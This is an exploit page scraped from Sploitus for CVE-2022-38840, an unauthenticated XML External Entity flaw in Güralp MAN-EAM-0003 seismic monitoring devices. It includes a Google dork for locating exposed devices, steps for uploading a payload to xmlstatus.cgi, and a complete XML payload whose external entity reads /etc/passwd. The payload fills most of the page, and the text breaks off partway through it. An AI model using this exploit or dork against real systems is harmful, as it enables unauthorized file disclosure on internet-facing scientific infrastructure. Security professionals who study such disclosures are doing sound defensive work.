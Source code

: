 ```yaml
---
title: MAN-EAM-0003 V3.2.4 - XML External Entity (XXE) Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38285&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-24
fetch_date: 2025-10-04T10:28:03.015128
---
```


# MAN-EAM-0003 V3.2.4 - XML External Entity (XXE) Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for MAN-EAM-0003 V3.2.4 - XML External Entity (XXE) Vulnerability CVE-2022-38840

2023-03-23 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38285
# Exploit Title: MAN-EAM-0003 V3.2.4 - XXE
# Date: 2022-09-19
# Exploit Author: Ahmed Alroky
# Author: http://guralp.com/
# Version: 3.2.4
# Authentication Required: NO
# CVE :   CVE-2022-38840
# Google dork: " webconfig menu.cgi "
# Tested on: Windows

# Exploit

1 - browse to http://<Host<http://%3cHost> name>/cgi-bin/xmlstatus.cgi
2 - click on "View saved XML snapshot" and upload XML exploit file or paste the exploit code and submit the form
3 - you will get /etc/passwd file content

#XML exploit code

```
<?xml version='1.0'?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<xml-status xmlns='http://www.guralp.com/platinum/xmlns/xmlstatus/1.1'>
<module status='-1' display-primary='true' path='das' title='Data acquisition'>
<reading status='100' display-primary='false' path='is_faulty'
    title='Fault condition'>false</reading>
<reading status='-1' display-primary='false' path='dsp_tag'
    title='DSP code tag'>platinum</reading>
<reading status='-1' display-primary='false' path='dsp_version'
    title='DSP code version'>102</reading>
<reading status='100' display-primary='true' path='dsp_state'
    title='Acquisition hardware module'>running</reading>
<reading status='-1' display-primary='true' path='reference_clock'
    title='Reference clock type'>GPS</reading>
<reading status='100' display-primary='false' path='clock_controller'
    title='ADC clock controller state'>FLL</reading>
<reading status='-1' display-primary='false' path='clock_control_val'
    title='ADC clock controller value'>46196</reading>
<reading status='100' display-primary='true' path='clock_locked'
    title='ADC clock locked'>true</reading>
<reading status='-1' display-primary='true' path='clock_last_locked'
    title='ADC clock last locked at'>2022-06-14T11:26:53Z</reading>
<reading status='100' display-primary='true' path='clock_phase_error' units='s'
    title='ADC clock phase error'>6.1e-08</reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.0' title='Sensor A'>
<reading status='100' display-primary='true' path='state'
    title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
    title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
    title='Last action'></reading>
<reading status='96' display-primary='true' path='mass_Z'
    title='Z mass position'>4.6%</reading>
<reading status='100' display-primary='true' path='mass_N'
    title='N mass position'>-0.3%</reading>
<reading status='100' display-primary='true' path='mass_E'
    title='E mass position'>-0.3%</reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.1' title='Sensor B'>
<reading status='100' display-primary='true' path='state'
    title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
    title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
    title='Last action'></reading>
</module>
<module status='-1' display-primary='true' path='das-in.sensor.DONB..TM.X' title='Auxiliary'>
<reading status='100' display-primary='true' path='state'
    title='Current state'>running</reading>
<reading status='-1' display-primary='true' path='last_action_time'
    title='Last action timestamp'>never</reading>
<reading status='-1' display-primary='true' path='last_action'
    title='Last action'></reading>
</module>
<module status='-1' display-primary='true' path='gcf-out-scream.default' title='Scream server (GCF network sender)'>
<reading status='100' display-primary='true' path='total_blocks'
    title='Total number of blocks sent'>11374055</reading>
<reading status='100' display-primary='true' path='last5_blocks'
    title='Number of blocks sent in last 5 minutes'>331</reading>
<reading status='-1' display-primary='false' path='port_number'
    title='Port listening on'>1567</reading>
<reading status='-1' display-primary='true' path='num_clients'
    title='Number of clients connected'>0</reading>
<list status='-1' display-primary='true' path='clients' title='Clients'>
</list>
</module>
<module status='-1' display-primary='false' path='gdi-base.default' title='Default data transport daemon'>
<reading status='100' display-primary='true' path='num_channels'
    title='Number of channels'>16</reading>
<reading status='100' display-primary='true' path='num_clients'
    title='Number of connected clients'>5</reading>
<reading status='100' display-primary='true' path='num_samples'
    title='Number of samples received'>7338920142</reading>
<reading status='100' display-primary='true' path='last5_samples'
    title='Number of samples in last 5 minutes'>213600</reading>
<list status='-1' display-primary='false' path='clients' title='Clients'>
<list-item status='-1' display-primary='false' path='44B02216' title='Client #1'>
<reading status='-1' display-primary='false' path='name'
    title='Client name'>gdi2gcf[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='1CC104A5' title='Client #2'>
<reading status='-1' display-primary='false' path='name'
    title='Client name'>gdi-link-tx[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='9D9E4553' title='Client #3'>
<reading status='-1' display-primary='false' path='name'
    title='Client name'>gdi2miniseed[default]</reading>
</list-item>
<list-item status='-1' display-primary='false' path='4B1427EC' title='Client #4'>
<reading status='-1' display-primary='false' path='name'
    title='Client name'>das-in</reading>
</list-item>
<list-item status='-1' display-primary='false' path='412FD3EB' title='Client #5'>
<reading status='-1' display-primary='false' path='name'
    title='Client name'>das-in-textstatus</reading>
</list-item>
</list>
<list status='-1' display-primary='false' path='channels' title='Channels'>
<list-item status='-1' display-primary='false' path='38B5E770' title='Channel #1'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HHZ.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='7B77F21B' title='Channel #2'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HHN.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='B55019F4' title='Channel #3'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HHE.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='35ED217B' title='Channel #4'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HDF.TM.X0</reading>
</list-item>
<list-item status='-1' display-primary='false' path='8062D6AB' title='Channel #5'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HNZ.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='2099C9F1' title='Channel #6'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HNN.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='DE833721' title='Channel #7'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.HNE.TM.10</reading>
</list-item>
<list-item status='-1' display-primary='false' path='5510ED44' title='Channel #8'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'>DONB.MMZ.TM.00</reading>
</list-item>
<list-item status='-1' display-primary='false' path='ACFA260E' title='Channel #9'>
<reading status='-1' display-primary='false' path='name'
    title='Channel name'...